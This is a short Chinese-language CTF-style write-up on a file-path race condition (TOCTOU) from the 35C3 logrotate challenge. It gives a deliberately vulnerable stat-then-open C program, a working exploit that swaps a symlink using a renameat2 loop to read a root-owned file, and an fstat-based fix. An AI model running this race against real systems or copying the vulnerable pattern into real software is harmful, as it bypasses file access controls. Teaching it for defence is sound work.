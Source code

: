 ```yaml
---
title: Race condition in file path
---
```


Liveoverflow 上看到的小知识，题目来自 [35c3 ctf logrotate](https://github.com/sroettger/35c3ctf_chals/tree/master/logrotate)，感觉在许多地方见过类似的代码，以后要留心类似的问题。

Tl;dr 同一个 filepath 在一个流程中被反复使用，都可能导致 race 的问题。

## Example code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main(int argc, char** argv) {
    char* path = argv[1];
    struct stat info;
    stat(path, &info);
    if (info.st_uid == 0) {
        printf("The file is owned by root, permission denied");
        exit(0);
    } else {
        char buf[100];
        int fd = open(path, O_RDONLY);
        read(fd, &buf, 100);
        printf("%s", buf);
    }
    return 0;
}
```

该程序检查了对应的文件是否属于 root，如果属于 root 则不操作并退出程序。

## Exploition

我们可以看到 path 在 stat 上使用了一次，之后在 open 的时候又使用了一次，这中间的窗口可以用于竞争，即首先让 path 是一个不属于 root 的文件，到 open 的时候如果 path 是指向我们想要读取的文件的符号链接的话，就可以顺利读取到本无法读取到的文件。

这里借助原题提供的 rename.c 来帮助我们完成这个操作。

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

该文件会不断地交换两个文件的文件名。

我们首先创建一个符号链接，指向属于 root 的 key，然后创建一个普通的文件。

```sh
ln -s key key_link
touch test
```

然后使用 rename 程序来让 *key_link* 与 *test* 不断的交换文件名

```sh
./rename key_link test
```

再使用程序传入符号链接的路径

```sh
./race key_link
```

多尝试几次，就会读到 key 的内容。

## Extension

在实际运用中，有很多种类型的程序都会存在类似的问题，比如定制过的操作系统中，一些具有 suid 的程序，在对于一些文件的操作上，需要分外小心。

## Patch

这类问题的修复比较容易，不使用 path，使用 fd 即可。

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int main(int argc, char** argv) {
    char* path = argv[1];
    struct stat info;
    int fd = open(path, O_RDONLY);
    fstat(fd, &info);
    if (info.st_uid == 0) {
        printf("The file is owned by root, permission denied");
        exit(0);
    } else {
        char buf[100];
        read(fd, &buf, 100);
        printf("%s", buf);
    }
    return 0;
}
```

这样的话就不会两次使用同一 path 来判断了。

还有一种情况，就是在文件名通过检查后，需要将文件名传递给另一个程序继续使用，这时候其实无法传递 fd，不过仍然可以使用 `/proc/self/fd/x` 来传递当前程序的 fd。